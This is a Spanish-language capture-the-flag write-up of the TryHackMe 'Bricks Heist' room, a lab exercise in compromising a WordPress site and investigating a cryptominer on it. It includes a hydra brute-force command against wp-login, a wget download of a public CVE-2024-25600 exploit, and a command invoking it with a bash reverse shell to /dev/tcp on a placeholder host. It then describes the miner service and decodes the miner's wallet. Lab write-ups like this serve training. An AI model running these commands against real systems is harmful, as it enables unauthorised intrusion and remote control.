 ```yaml
---
title: "TryHack3M: Bricks"
platform: "HTB"
publishedAt: 2025-05-22
cover: "/images/ctf/bricks-heistt.webp"
---
```


---


![image.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/5e19dbac-6f69-4b8e-8f73-8ef638bf2a2c/8415f495-a0a4-4a8d-b258-ce28be57dfa6/image.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=ASIAZI2LB466TVF5HTBT%2F20250511%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20250511T034514Z&X-Amz-Expires=3600&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEAsaCXVzLXdlc3QtMiJGMEQCID%2F59gd8NvDCvqp3QP8dsqLBIRg4m8JY3cp9OIXYUJ8tAiAwLRy39eVS%2FwglTpFiKV18ayfQmx3xG55NmbMYGgm3aCqIBAi0%2F%2F%2F%2F%2F%2F%2F%2F%2F%2F8BEAAaDDYzNzQyMzE4MzgwNSIMYSYK7Phq%2BezAYkP1KtwDljf99NUwHxw5G%2FukvJ9xGpfKF9vxfEaxdR3JKCtarL0tcQpTwEOww9qlwK%2BG69NjgZojHMUkBjHICsSFzAgLwpjWrITt58GikeJvCZTOtOdpUjFOpcQ7fSGOVhIKNuajpmkbb0XdniqM9Yfzbq4XXZw9hnM7B07g4z9wGbK1rZX%2FJN9lgT2bskOFLANCC25K3ROdyJIeVmFDLvLIUwu9qp7Ov9LivUUQaruydIPVzn8f2%2FSA8roUgDBQTbcuzoj4FjZyj930KSxVSPrt%2BzVXv4ogKbkpLpafqW7%2FsE46iJxoLkJOv3yx1M%2FDfKXrIjKsPnO4EV%2BjtedEBvFZ%2BBlkepa7tfwf8oPiT%2BKjNCie4c8M07yDKrSrOyJI9BSCJddwgWi2vVagq3FgdZZNUJUQx7NU90fnd61ADsW8CQ3AJFc%2F2bN1J9XlRkxCtfa3%2FMNXl7cPzLO1oUC0Eb0imxqIRABqbZVpXEuntuNh70Pwud4mStbnOowApM9atce6q1f3paSpFhui74sIehstoPbe3AS%2BmGcBn3RXSE5UsURZGDENmmwBruKqzx9tqyYegZS7AMxqGsNA0PYdI4OaJ8Ptr70qlXQ7CFP60%2BHK5WwS2utRi8q2UJHtGHzMUR4wg6uAwQY6pgHaLSV1lvRjvraxmlxKz67IMa3gr1sXU7CBuqAS8iZ%2BLy8eP18wdVkSPIbeWYIpdo1D0f5agb4NQnoy3ZwUiiaoGoxpnk%2FrB8NTpK%2Be08uoRd6%2B0d%2BZRoqRF44HK6bMwiSvYDK8Ad8EXXyX8w%2BUd7C9TdaQE3kM%2F0jiOXqPTtaNaRYGb4LSTi0OG2pCM8xKXmSPdnAuqbNzL1ghMVJX7cY8UVksqy10&X-Amz-Signature=3823a3d28e805b5a1bfbdb1d229b68b01f7ad05a2a3ac120e498f15e8e5fa10e&X-Amz-SignedHeaders=host&x-id=GetObject)


# 🧱 Bricks Heist – TryHackMe (Write-up)


## 🕵️ Introducción


Un sitio web WordPress fue comprometido. Nuestra misión: identificar el punto de entrada, recuperar acceso como administrador, detectar actividad maliciosa (minería), y rastrear al grupo de amenazas involucrado.


---


## 🔍 1. Escaneo inicial


```shell
bash
CopyEdit
nmap -sCV -p- 10.10.72.226
```


Servicios expuestos:

- 22: SSH
- 80: WebSockify (error 405)
- 443: WordPress 6.5
- 3306: MySQL (sin acceso)

---


## 🧱 2. Enumeración de WordPress

- Se detecta **tema activo: Bricks**
- Vulnerabilidad conocida: **CVE-2024-25600**
- Exploit público descargado desde GitHub

---


## 🔓 3. Acceso administrativo


Se obtuvo login con `administrator`, mediante fuerza bruta con `hydra`:


```shell
bash
CopyEdit
hydra -l administrator -P rockyou.txt https://bricks.thm -s 443 -S -f \
  http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:S=Location: /wp-admin/"
```


---


## 💣 4. Exploiting CVE-2024-25600


Se usó el script:


```shell
bash
CopyEdit
wget https://raw.githubusercontent.com/K3ysTr0K3R/CVE-2024-25600-EXPLOIT/main/CVE-2024-25600.py
```


Ejemplo:


```shell
bash
CopyEdit
python3 CVE-2024-25600.py \
  --url https://bricks.thm \
  --username administrator \
  --password TU_PASS \
  --cmd "bash -c 'bash -i >& /dev/tcp/TU_IP/4444 0>&1'"
```


Se obtuvo **shell interactiva**.


---


## 🐚 5. Post-explotación


### Flag encontrada:


```plain text
css
CopyEdit
/var/www/html/650c844110baced87e1606453b93f22a.txt
THM{fl46_650c844110baced87e1606453b93f22a}
```


---


## 🔍 6. Proceso y servicio sospechoso


### Proceso:


```plain text
pgsql
CopyEdit
nm-inet-dialog
```


### Servicio malicioso:


```plain text
CopyEdit
ubuntu.service - TRYHACK3M
```


Verificado vía:


```shell
bash
CopyEdit
systemctl status ubuntu.service
```


---


## 📄 7. Log del miner


Log activo ubicado en:


```plain text
bash
CopyEdit
/lib/NetworkManager/inet.conf
```


📌 **Respuesta (formato** **`xxxx.xxxx`****)**:


```plain text
pgsql
CopyEdit
inet.conf
```


---


## 💰 8. Wallet del miner


Del archivo `inet.conf`:


```plain text
text
CopyEdit
ID: WW1NeGNY...
```


Base64 → doble decode → wallet final:


```plain text
nginx
CopyEdit
bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa
```


---


## 🕵️‍♂️ 9. Threat group


Wallet está asociada con el grupo de ransomware:


**LockBit**


(Confirmado por búsquedas OSINT y análisis de blockchain)


---


## ✅ Conclusión


Este CTF fue un excelente caso realista que combinó:

- Enumeración
- Explotación de CVE
- Análisis forense de logs y procesos
- Técnicas OSINT

Una gran práctica para pentesters y analistas de amenazas.

